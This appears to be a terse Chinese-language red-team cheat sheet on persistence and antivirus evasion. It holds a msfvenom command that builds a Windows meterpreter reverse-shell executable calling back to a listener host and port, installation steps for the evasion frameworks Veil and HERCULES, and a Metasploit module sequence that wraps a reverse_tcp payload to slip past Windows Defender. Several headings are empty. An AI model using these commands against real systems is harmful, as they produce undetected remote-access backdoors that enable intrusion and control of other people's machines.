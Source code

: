
# 2Misc
## 权限维持/反侦察
### 隐匿攻击
#### 端口转发
##### ew



### 远控
#### 免杀
##### msfvenom
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.233 LPORT=6666 -f exe > 6666.exe`

##### Veil
- **安装**
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil/setup/
sudo ./setup.sh –c
sudo ./Veil.py
```

##### HERCULES
- **安装**
```bash
确保电脑里有Go
git clone https://github.com/noosec/HERCULES.git
cd HERCULES
wget -c https://github.com/fatih/color
go get github.com/fatih/color
go run Setup.go
cp -rf /root/go/src/github.com /usr/lib/go-1.7/src/github.com
cd SOURCE/
go run HERCULES.go
```

##### ASWCrypter


##### VENOM


##### metasploit-framework
```bash
use evasion/windows/windows_defender_exe
set payload windows/x64/meterpreter/reverse_tcp
set lhost 
set lport
run
```

---